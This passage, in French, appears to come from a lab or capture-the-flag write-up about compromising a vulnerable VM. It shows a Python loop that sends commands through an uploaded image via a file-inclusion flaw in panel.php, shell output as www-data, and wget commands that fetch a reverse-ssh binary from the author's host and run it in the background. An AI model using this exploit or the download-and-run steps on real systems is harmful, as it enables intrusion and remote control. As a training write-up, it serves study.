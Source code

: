 ```python
    print("Upload failed")
    exit()

while True:
    command = input("$ ").strip()
    response = session.post(
        "http://192.168.56.198/panel.php",
        data={
            "continue": "whatever",
            "load": f"uploaded_images/{filename}",
            "cmd": command,
        }
    )
    output = response.text.split("IHDR\x00")[1].strip()
    print(output)
```

Je peux alors rapatrier un `reverse-ssh` et l'exécuter en mode bind (port par défaut 31337) :

```console
devloop@linux:~> python upload.py 
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www
$ ls -al
total 56
drwxr-xr-x  5 root root 4096 Mar 20  2017 .
drwxr-xr-x 13 root root 4096 Mar 29  2017 ..
-rw-r--r--  1 root root  330 Mar 20  2017 add.php
-rw-r--r--  1 root root  391 Mar 20  2017 c.php
-rw-r--r--  1 root root 2822 Mar 20  2017 head.php
-rw-r--r--  1 root root 2491 Mar 20  2017 head2.php
drwxr-xr-x  2 root root 4096 Mar 20  2017 images
-rw-r--r--  1 root root   22 Mar 19  2017 in.php
-rw-r--r--  1 root root 1314 Mar 20  2017 index.php
-rw-r--r--  1 root root 2167 Mar 20  2017 panel.php
drwxrwxr-x 10 ica  ica  4096 Mar 20  2017 phpmy
-rw-r--r--  1 root root  596 Mar 20  2017 show.php
-rw-r--r--  1 root root  824 Mar 20  2017 test.php
drwxrwxrwx  2 root root 4096 May 14 01:28 uploaded_images
$ uname -a                                  
Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
$ wget http://192.168.56.1:9999/reverse-sshx86 -O uploaded_images/reverse-sshx86
$ chmod 755 uploaded_images/reverse-sshx86
$ nohup uploaded_images/reverse-sshx86 &
```

## roottoor vers le futur

En fouillant sur la VM les fichiers appartenant au seul utilisateur *non-système* présent je trouve une particularité :
